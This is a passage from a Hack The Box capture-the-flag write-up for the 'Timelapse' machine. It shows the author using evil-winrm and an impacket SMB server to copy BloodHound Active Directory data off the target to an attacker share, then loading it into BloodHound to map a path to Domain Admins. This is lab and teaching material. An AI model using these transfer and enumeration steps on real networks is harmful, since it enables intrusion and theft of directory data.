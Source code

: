 > Note: You can also transfer files via `evil-winrm`'s `download` and `upload` command.

- **Upload the collected zip file via SMB:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:23:21(HKT)]
└> impacket-smbserver attacker_share . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[...]
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net use \\10.10.14.6\attacker_share
The command completed successfully.
*Evil-WinRM* PS C:\Users\legacyy\Desktop> copy 20230809100416_BloodHound.zip \\10.10.14.6\attacker_share\
```

- **Unzip it:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:25:10(HKT)]
└> unzip 20230809100416_BloodHound.zip 
Archive:  20230809100416_BloodHound.zip
  inflating: 20230809100416_computers.json  
  inflating: 20230809100416_users.json  
  inflating: 20230809100416_groups.json  
  inflating: 20230809100416_containers.json  
  inflating: 20230809100416_domains.json  
  inflating: 20230809100416_gpos.json  
  inflating: 20230809100416_ous.json  
```

- **Use Bloodhound to view the collected data:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:26:27(HKT)]
└> sudo neo4j start
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:26:42(HKT)]
└> bloodhound 

```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809172708.png)

- **Import the collected data:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809172823.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809172828.png)

Now, we can find the attack path that can escalate our privilege to Domain Admins.

**Find all Domain Admins:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809172910.png)
